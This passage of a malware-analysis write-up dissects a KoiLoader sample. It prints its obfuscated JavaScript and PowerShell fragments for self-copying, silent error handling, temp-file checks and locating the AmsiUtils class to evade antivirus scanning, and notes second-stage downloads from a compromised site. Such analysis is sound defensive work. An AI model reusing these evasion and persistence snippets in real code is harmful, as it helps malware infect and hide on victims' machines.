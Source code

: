 Interestingly the code checks if the system is 32 or 64 bit. 
```Powershell
GetObject("winmgmts:root\\cimv2:Win32_Processor='cpu0'").AddressWidth==64?"SysWOW64":"System32"
```

Than the script names itself `rMachineGuidr.js` and tries to copy itself into `%programdata%` of the user. Also in case in which this instructions might fail, the `catch(e) {}` is supposed make this attempt silent to not raise unnecessary alerts. 
```javascript
var agn='r'+bbj.RegRead('HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Cryptography\\MachineGuid')+'r.js'
if (WScript.ScriptName != agn) {
	var fs5="yFi"
	try {
	fso["Cop"+fs5+"le"](WScript.ScriptFullName, bbj.ExpandEnvironmentStrings("%programdata%")+"\\"+agn)
	} catch (e) {}
}
```

File runs itself and tries to create a copy in temp folder under name "7zMJF008IA8P".
Than deletes itself, checks if the task is accomplished and if so it runs another command to download second stage with high privileges on the host.
```javascript
var mtx_file = bbj.ExpandEnvironmentStrings("%tem"+"p%")+"\\"+mtx_name
var fs1="leteFi"
var fs2="leExis"
try {
	fso["De"+fs1+"le"](mtx_file)
} catch (e) {}
if (!fso["Fi"+fs2+"ts"](mtx_file))
{
```

The last commands in this stage of the attack start another powershell. Returns list of types of Reference assemblies[^2] then iterates throught it and checks for matches. `*a?s?U*ls`, asterisk - any number of characters, ? - single character.
```{Powershell}
$aR2Oew=[Ref].Assembly.GetTypes()
Foreach($llin in $aR2Oew) {if ($llin.Name -like '*a?s?U*ls') {echo $llin}};
```

![Desktop View](imges/2025-08-01-KoiLoader/Pasted image 20250725231237.png)

AmsiUtils stands for `Anti-malware Scan Interface` integrated with Microsoft Defender Antivirus. Next the new enviroment is created with the path to the file/directory `7zMJF008IA8P`. And lastly it downloads 2 files from compromised website `homalogonatous65K.php` and `cheekpieceGAR.ps1`.

#### homalogonatous65K.php
SHA256: C6D433EB10BCD8CF38D3E788D5A7221122C81A824B847073480551FA7D55748E


It's a Powershell in a trenchcoat of PHP.
Content of this file is each time partially generated which guarantees some uniqnes.
It's a 2-liner, first the script does a check and return True or False. It could be some failsafe mechanism. 
```{Powershell}
PS C:\Windows\system32> $vl1 = ("zrSszQb1JW2YVwZXPF153HT4IlqG4MCetbtvVwZXPF153HT4gxDA1Tk0KDtKVwZXPF153HT4dULx1OVJ9MZEVwZXPF153HT4iltcNnX3kkDl" -match "VwZXPF153HT4");
echo $vl1
True
```


[^1]: An ActiveX object is an instance of a class that exposes properties, methods, and events to ActiveX clients. ActiveX objects support the COM. An ActiveX component is an application or library that is capable of creating one or more ActiveX objects.
[^2]: _Reference assemblies_``` are a special type of assembly that contain only the minimum amount of metadata required to represent the library's public API surface. [...] enables developers to build programs that target a specific library version without having the full implementation assembly for that version.```